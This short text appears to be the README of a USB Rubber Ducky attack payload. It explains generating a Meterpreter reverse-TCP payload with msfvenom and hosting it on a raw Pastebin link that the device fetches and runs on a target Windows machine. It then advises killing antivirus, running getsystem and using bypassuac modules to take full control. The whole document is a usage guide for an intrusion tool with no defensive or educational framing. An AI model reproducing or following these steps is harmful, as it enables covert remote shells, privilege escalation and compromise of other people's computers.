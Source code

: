 Configuration:
Generate payload using this command: msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f psh-cmd --smallest Cut the payload down to JUST the base64. 
Upload to pastebin, my example: https://pastebin.com/KQpwbiRS.
Then, simply convert this URL to a raw URL by adding a /raw/ in it
You can URL shorten it if you'd like, just make sure you use the raw link and not the normal pastebin link.

Now change the $u='YOUR_LINK' to your URL (e.g. $u='https://pastebin.com/raw/KQpwbiRS').
Then simply upload it to your rubber ducky, and you can get extremely fast shells.

NOTE: It is recommended you migrate the shell and kill antivirus as soon as possible, as most antiviruses will pick up on a meterpreter shell and kill it. 
Running getsystem command on meterpreter is also great. 
Use the windows/local/bypassuac modules (find them with the command search bypassuac, 
I find that exploit/windows/local/bypassuac_injection_winsxs works very well for my Windows 10 device, disabled antivirus of course!) for Windows 8 and up.
This will allow you to bypass the UAC on windows, any level, and be able to freely run the getsystem command, which essentially lets you do anything.
